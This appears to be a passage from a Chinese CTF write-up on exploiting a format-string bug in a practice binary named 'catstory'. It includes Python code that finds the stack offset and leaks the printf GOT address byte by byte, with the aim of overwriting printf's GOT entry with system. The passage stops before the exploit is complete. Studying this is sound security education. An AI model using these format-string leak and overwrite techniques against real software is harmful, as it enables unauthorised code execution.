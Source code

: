 ```python
proc = process("./catstory")
proc.sendline(calc_offset_payload()) 
print proc.recv()
```
![](https://i.loli.net/2019/07/22/5d357efc82ea588974.png)
可以数出来
![](https://i.loli.net/2019/07/22/5d357efd1778140442.png)
在第132个“参数”处，因此后面通过 `%n` 写入数值的时候，往132个偏移，即 `%132$n` 写入即可。
看看它采用的安全手段
![](https://i.loli.net/2019/07/22/5d357efd75d0258321.png)
 在这里做一个小笔记，`PIE` 是将主程序加载进随机的（但不是任意位置，需要对齐等）地址空间，可以用来防范 rop，而 `ASLR` 则是操作系统级别的一个东西，随机化动态链接库的地址，而动态链接库一定是PIE的。可以理解为如果程序开启了 PIE，那么上面的 `0x601030` 是不能直接用的，因为主程序像动态链接库一样，地址被随机化了。
 这题没开启PIE，那么可以少操一点心。
 首先，目标是把 `printf` 的 GOT 改为 `system` 的，但是我们对 remote 的 libc 一无所知，需要先泄露一些地址。
 我们选择 `printf` 和 `__libc_start_main` 的地址进行泄露，我的思路是按位打印，这样如果遇到 0x00 也可以知道。
 

```python
def get_got_addr_payload(i):
    pl = ""
    pl += "AAAAAAAA" 
    pl += "%132$s"
    pl = pad(pl)
    pl += struct.pack("Q", GOT_PLT_ADDR + i) 
    return pl
    
def get_got_addr(proc):
    got_addr = list("")
    for i in range(0, 8): 
        pld = get_got_addr_payload(i)
        proc.sendline(pld)
        rec = proc.recv() 
        #print rec
        #print len(rec)
        if len(rec) == 991:
            got_addr += '\0'
        else :
            got_addr += rec[8]
    got_addr = "".join(got_addr) 
    got_addr = struct.unpack("P", got_addr)
    return got_addr
```
执行

```python
proc = process("./catstory")
GOT_PLT_ADDR = 0x601030 # printf
printf_addr = get_got_addr(proc)
printf_addr = int(''.join(map(str,printf_addr)))
print "printf_addr = %x" % (printf_addr)
```
![](https://i.loli.net/2019/07/22/5d357efdbcab174130.png)
这是不够的，还需要知道 `__libc_start_main` 的地址，由于 `ASLR` ，需要在一次运行时内写出。
